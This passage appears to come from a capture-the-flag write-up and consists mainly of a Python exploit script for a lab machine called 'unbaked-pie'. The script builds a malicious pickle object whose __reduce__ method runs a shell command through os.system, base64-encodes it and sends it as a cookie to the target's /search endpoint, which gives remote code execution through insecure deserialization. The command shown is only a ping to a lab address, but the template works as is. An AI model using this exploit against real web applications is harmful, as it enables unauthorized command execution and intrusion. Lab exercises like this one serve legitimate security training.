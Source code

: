 **Let's do that!**
```py
#!/usr/bin/env python3

import pickle
from base64 import b64decode, b64encode
import logging
import os
import requests

class Exploit():
    def __reduce__(self):
        return (os.system,("ping -c 4 10.9.0.253 ",))

class Serialization:
    def __init__(self, cookie):
        self.cookie = cookie

    def decodeSearchCookie(self):
        base64Decoded = b64decode(self.cookie)
        logging.info(f'Base64 decoded: {base64Decoded}')

        with open('cookie.txt', 'wb') as file:
            file.write(base64Decoded)

    def deserializeObject(self):
        with open('cookie.txt', 'rb') as file:
            deserializedObject = pickle.load(file)

        logging.info(f'Deserialized: {deserializedObject}')

    def serializeObject(self, serializeContent, url):
        with open('serialized.txt', 'wb') as file:
            pickle.dump(serializeContent, file)

        logging.info(f'Before serialized: {serializeContent}')

        with open('serialized.txt', 'rb') as file:
            serialized = file.read()
            base64Encoded = b64encode(serialized)
            logging.info(f'Serialized: {serialized}')
            logging.info(f'Base64 encoded: {base64Encoded}')

            finalPayload = {
                'search_cookie': base64Encoded.decode('utf-8')
            }
            
            logging.info(f'Sending a GET request to /search, so we can trigger the payload...')
            requests.get(url, cookies=finalPayload)
            logging.info(f'Payload sent...')

def main():
    logging.basicConfig(level=logging.INFO, format='[*] %(message)s')

    cookie = 'gASVCAAAAAAAAACMBHRlc3SULg=='

    serialization = Serialization(cookie)
    # serialization.decodeSearchCookie()
    # serialization.deserializeObject()

    serializeContent = Exploit()
    url = 'http://unbaked-pie.thm:5003/search'
    serialization.serializeObject(serializeContent, url)

```